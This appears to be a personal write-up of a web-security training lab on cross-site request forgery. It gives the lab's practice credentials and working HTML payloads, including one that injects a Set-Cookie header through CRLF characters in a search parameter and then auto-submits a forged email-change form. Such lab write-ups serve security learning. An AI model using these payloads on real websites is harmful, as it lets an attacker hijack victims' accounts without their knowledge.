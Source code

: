 ### Lab: CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, stored csrfKey from assigned cookie
2. Grabbed csrf token from change-email form from /my-account
3. Crafted HTML page with payload*, stored and delivered to victim
```html
<html>
    <body>
    <form action="URL/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@justgothacked">
        <input required type="hidden" name="csrf" value="CSRF">
        <button type="submit">Update Email</button>
    </form>
    <script>document.forms[0].submit()</script>
</body>
</html>
```

In the cookie, the csrf token in form is not tied to the session cookie but the csrfKey cookie. Once the attacker passes its csrfKey and associated csrf token to the victim the exploit can run.

4. Tried to pass the cookie to the victim using the header _Set-Cookie_ from the exploit-server but did not work:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: csrfKey=CSRF
```

5. Input in the search field was reflected in the _Set-Cookie_ header:
```http
Set-Cookie: LastSearchTerm=test
```

6. Final payload*, stored and delivered:
```html
<html>
    <body>
        <img src="URL/?search=test%0d%0aSet-Cookie:%20csrfKey=CSRFKEYVALUE%3b%20SameSite=None" onerror="document.forms[0].submit()">
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@hacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```

(/?search=test
Set-Cookie: csrfKey=CSRFKEY; SameSite=None)

_____

Script notes:

- 1/2 POST **/login** params=csrf, username, password
- 6 - POST **/**  
    params:
    - urlIsHttps: on
    - responseFile: /exploit
    - responseHead: HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody: *
    - formAction: STORE | DELIVER_TO_VICTIM